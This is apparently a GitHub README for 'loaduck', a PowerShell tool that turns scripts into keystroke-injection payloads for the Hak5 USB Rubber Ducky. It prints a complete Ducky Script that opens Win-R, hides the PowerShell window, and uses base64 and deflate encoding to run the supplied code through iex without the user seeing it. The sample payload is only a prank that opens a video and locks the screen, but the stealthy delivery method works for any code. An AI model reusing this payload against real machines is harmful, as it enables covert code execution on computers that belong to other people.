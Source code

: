 # loaduck

PowerShell script bootstrapper for the Hak5 USB Rubber Ducky.

Written in PowerShell.

Targets Windows 7 and Windows 10, YMMV otherwise.

## How

PowerShell files can be dragged on to loaduck.ps1 to generate a .ps1.ducky.txt
file that can be used on the ducky.

Or you can use a command like:

    powershell .\loaduck.ps1 [ps1 filename]

This will generate:

    [ps1 filename].ducky.txt

The wrapper script zips your source PowerShell into a single line, then
injects it in an (almost) invisible payload that's fired from Win-R.

### Example

For example, given a (really annoying) PowerShell script of:

```powershell
For ($i=0; $i -le 2; $i++) {
    start https://www.youtube.com/watch?v=dQw4w9WgXcQ
}
rundll32.exe user32.dll,LockWorkStation
```
The script will be encoded into the following Ducky Script:

```
DELAY 5000
GUI r
DELAY 250
ALT SPACE
STRING M
DOWN
REPEAT 40
ENTER
STRING powershell -w hidden iex '(Add-Type n -pas -m ''[DllImport(\"user32\")]public static extern int ShowWindow(int h,int n);'')::ShowWindow((gps -Id $pid).MainWindowHandle,0);Read-Host|iex'
ENTER
DELAY 1000
STRING sal n New-Object;iex $(n IO.StreamReader($(n IO.Compression.DeflateStream($(n IO.MemoryStream(,$([Convert]::FromBase64String('c8svUtBQybQ1sFZQyVTQzUlVMAKxtLU1Faq5FICguCSxqEQho6SkoNhKX7+8vFyvMr+0pDQpVS85P1e/PLEkOcO+zDYlsNyk3DI8PSI5kKuWq6g0LyUnx9hIL7UiVaG0OLUIyAQK6PjkJ2eH5xdlB5cklmTm53HxcgEA')))),[IO.Compression.CompressionMode]::Decompress)))).ReadToEnd();
ENTER
```

The long PowerShell script creates the hidden PowerShell window that listens
for keystrokes (our minified annoying script in this case) and then runs them
when it receives and Enter key.

## Compression script

Invoke-Encode.ps1 borrowed from https://github.com/samratashok/nishang - that
file remains GPL licensed.

Modifications have been made to reduce the final script size - see
https://github.com/thisismyrobot/loaduck/compare/4bd150a...master#diff-d36e9afee0b578300581569656ccd2da
for those changes.
